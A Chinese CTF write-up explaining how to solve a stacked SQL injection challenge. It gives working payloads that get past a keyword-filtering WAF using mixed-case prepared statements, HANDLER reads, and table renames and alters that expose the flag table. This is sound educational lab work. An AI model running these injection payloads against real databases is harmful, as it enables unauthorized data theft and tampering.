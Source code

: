 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```


## flag

（每一次的flag都不同）

## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同

<img src="./images/image-20201222212022041.png" alt="image-20201222212022041" style="zoom:33%;" />

2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   <img src="./images/image-20201222213617141.png" alt="image-20201222213617141" style="zoom:33%;" />

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   <img src="./images/image-20201222213724343.png" alt="image-20201222213724343" style="zoom:33%;" />

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      <img src="./images/image-20201222215509025.png" alt="image-20201222215509025" style="zoom:33%;" />

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了

      --》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      <img src="./images/image-20201222220208159.png" alt="image-20201222220208159" style="zoom:33%;" />

      获取表中的列信息

      `1';show columns from words;--+`

      <img src="./images/image-20201222220640461.png" alt="image-20201222220640461" style="zoom:33%;" />
   
      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
   
      <img src="./images/image-20201222220806395.png" alt="image-20201222220806395" style="zoom:33%;" />
   
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
         1. 绕过select过滤
         2. handler语句
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      **绕过select过滤方法：**
   
      - 大小写绕过、添加/**/绕过（但此处preg_match中的正则表达式最后为/i，说明在匹配时不区分大小写，故此方法无用）
   
      - 使用预处理语句
   
        预处理的流程包含：
   
        > ```sql
        > SET @**;								# 用于设置变量名和值
        > PREPARE stmt_name FROM preparable_stmt;	# 用于预备一个语句，并赋予名称，以后可以引用该语句
        > EXECUTE stmt_name;			 			# 执行语句
        > {DEALLOCATE | DROP} PREPARE stmt_name;	# 用来释放掉预处理的语句
        > ```
   
      ​        对于本题构造的预处理语句如下：
   
      ```sql
      1';SEt @a=concat("SEl","ect flag from `1919810931114514`");PRepare hello from @a;execute hello;#
      ```
   
      说明：预处理语句中set和prepare均使用大小写混用，因为页面提示输出以下内容。
   
      ```
      [OUTPUT]: strstr($inject, "set") && strstr($inject, "prepare")
      ```
   
      ​    strstr()函数对大小写敏感，所以可以使用大写绕过。
   
   10. 直接使用handler语句
   
       mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
   
       > ```sql
       > HANDLER tbl_name OPEN [ [AS] alias]
       > # 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。
       > HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ { FIRST | NEXT }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > # 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
       > HANDLER tbl_name CLOSE
       > # 关闭打开的句柄。
       > ```
   
       ```sql
       
       1';
       handler `1919810931114514` open;
       handler `1919810931114514` read first;-- +
       ```
   
       
   
   11. 难点2：“换个名”（考察对sql操作熟练程度）
   
       根据前文的分析，可以看出在输入框中输入数字1、2等之后，后端接收数字之后在words数据表中查询内容显示，而根据前面已经查询已经得出表words和表1919810931114514的列信息，因此可以尝试（换个名），将表1919810931114514的表结构改成和words一样，即增加一个id列，且将表名改成words，即可直接通过在输入框中输入1，来获取flag值。
   
       步骤：
   
       - 表words改名：rename table words to new_word;
   
       - 表1919810931114514增加id列：alter table 1919810931114514 add id int unsigned not Null auto_increment primary key;
   
       - 修改表1919810931114514的flag列为data列名：alter table 1919810931114514 change flag data varchar(100);
   
       - 表1919810931114514改名：rename table `1919810931114514` to words;
   
         此时再直接向输入框中输入1，即可获取flag的内容。
   
       ```sql
       1';rename table words to temp;alter table `1919810931114514` add id int unsigned not Null auto_increment primary key;alter table `1919810931114514` change flag data varchar(100);rename table `1919810931114514` to words;#
       ```

## 总结

- 本题考察对sql注入各种类型的熟练程度，如果对每种sql注入类型都比较了解，则可以比较快的定位到使用堆叠注入。
- 因为select、update、delete、drop、insert和where这些关键字均被过滤掉，而且采用常见的大小写绕过、注释符绕过不行，所以常用的union注入走不通。
- 使用堆叠注入，就意味着可以正常构造一些sql进行执行，查询需要的数据。show database、tables、columns from table_name，即可获取数据库名、表名和列名。
- 两种绕过select过滤方法
  - **直接**  使用预处理语句或者handler语句（mysql特有）
  - **间接**  利用题目已有的条件，改表名和表结构
- 注意  当表名、字段名为数字时，需要用**反引号**来标识